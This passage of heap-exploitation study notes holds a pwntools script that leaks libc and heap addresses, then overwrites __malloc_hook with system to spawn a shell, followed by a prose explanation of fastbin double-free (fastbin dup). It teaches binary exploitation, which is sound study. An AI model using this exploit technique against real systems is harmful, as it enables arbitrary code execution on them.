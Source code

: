 ```python
 
    
io = start()

io.recvuntil(b'puts() @ ')
puts_leak = int(io.recvn(14), 16) 
libc.address = puts_leak - libc.sym['puts']
io.recvuntil(b'heap @ ')
io.timeout = 0.1                #important

heap_leak = int(io.recvn(8), 16)
info("The address of puts:: "+ hex(puts_leak))
info("The address of heap: " + hex(heap_leak))
info("The address of libc: " + hex(libc.address))

distance = libc.sym['__malloc_hook'] - 0x20 - (heap_leak + 0x20)

malloc(io, 24, b'a'*24 + p64(0xffffffffffffffff))
malloc(io, distance, b'/bin/sh\x00')
malloc(io, 24, p64(libc.sym['system']))

#Option 1
#cmd = heap_leak + 0x30  #the address save "/bin/sh"
#malloc(io, cmd, b'')

#Option 2
cmd = next(libc.search(b"/bin/sh\x00"))
malloc(io, cmd, b' ')


io.interactive() 


```



## Fastbin dup

### Overall 
![image](https://hackmd.io/_uploads/HybqwqIHC.png)




- The fastbin double-free check only ensures that a chunk being freed into a fastbin is not already the first chunk in that bin, if a different chunk of the same size is freed between the double-free then the check passes. 

- For example, request chunks A & B, both of which are the same size and qualify for the fastbins when freed, then free chunk A. If chunk A is freed again immediately, the fastbin double-free check will fail because chunk A is already the first chunk in that fastbin. Instead, free chunk B, then free chunk A again. This way chunk B is the first chunk in that fastbin when chunk A is freed for the second time. Now request three chunks of the same size as A & B, malloc will return chunk A, then chunk B, then chunk A again. 
